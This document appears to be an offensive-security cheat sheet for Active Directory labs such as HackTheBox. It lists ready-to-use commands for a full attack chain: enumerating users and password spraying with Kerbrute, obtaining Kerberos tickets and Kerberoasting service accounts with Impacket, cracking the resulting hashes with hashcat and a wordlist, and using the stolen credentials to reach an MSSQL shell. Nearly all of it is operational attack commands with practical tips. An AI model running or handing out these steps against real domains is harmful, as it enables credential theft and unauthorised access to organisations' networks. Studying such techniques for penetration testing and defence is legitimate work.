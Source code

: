 # Cheat Sheet

## Kerbrute

### Enumerating Valid Users w/ Kerbrute

1. Place potentially valid users into a <mark style="color:yellow;">users.txt</mark> file

&#x20; 2\. Execute Userenum:

```
./kerbrute userenum -d htb.local --dc hostname_or_IP_of_DC users.txt
```

### Password Spray

1. Gather valid usernames
2. Execute userenum
3. Passwordspray:

```
./kerbrute passwordspray --dc hostname_or_IP_of_DC -d htb.local users.txt <password_here>
```

## Impacket

### Generate Kerberos TGT w/ <mark style="color:yellow;">Impacket-GetTGT</mark>

Generate TGT:

```
impacket-getTGT domain/user:password
```

* This will save the ticket as <mark style="color:yellow;">\<username>.ccache</mark>

Export KRB5CCNAME so that Impacket will use it:

```
export KRB5CCNAME=user.ccache
```

```
klist

Ticket cahce: FILE: <username.ccache>
Default principal: username@domain

Valid Starting        Expires            Service Principal
MM/DD/YYYY TIME       MM/DD/YYYY TIME    krbtgt/domain@domain
        renew until MM/DD/YYYY TIME
```

### Kerberoasting w/ Impacket-<mark style="color:yellow;">GetUserSPNs</mark>

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k

Password: Enter_password_here
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -no-pass
```

* Be sure to utilize the <mark style="color:yellow;">-request option if you want a hash</mark>
* Without it, you will only validate access to an SPN
* Which is helpful, but what we're really after is a hash

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -request
```

Getting an error?

* "<mark style="color:yellow;">The SMB request is not supported. Probably NTLM is disabled.</mark>"
* You may be able to fix this with the <mark style="color:yellow;">-dc-host</mark> option rather than -dc-ip

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass
```

Requesting hash:

* The <mark style="color:yellow;">-request option is required in order to obtain a hash</mark>

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass -request
```

### Cracking krb5tgs Hash

1. Copy hash from the GetUserSPNs output
2. Place in a file called hashes.txt
3. If you utilize the latest version of hashcat, it will automatically detect the type of hash
4. Crack:

```
hashcat hashes.txt /usr/share/wordlist/rockyou.txt
```

&#x20;5\. View password:

```
hashcat hashes.txt --show
```

### Authenticating to svc\_mssql w/ <mark style="color:yellow;">Impacket-mssqlclient</mark>

* Did you get a SPN for svc\_mssql or something similar?
* You may be able to utilize valid credentials to gain a shell to mssql!

Impacket-mssqlclient:

```
impacket-mssqlclient domain.local -k
```

* \-k specifies usage of Kerberos

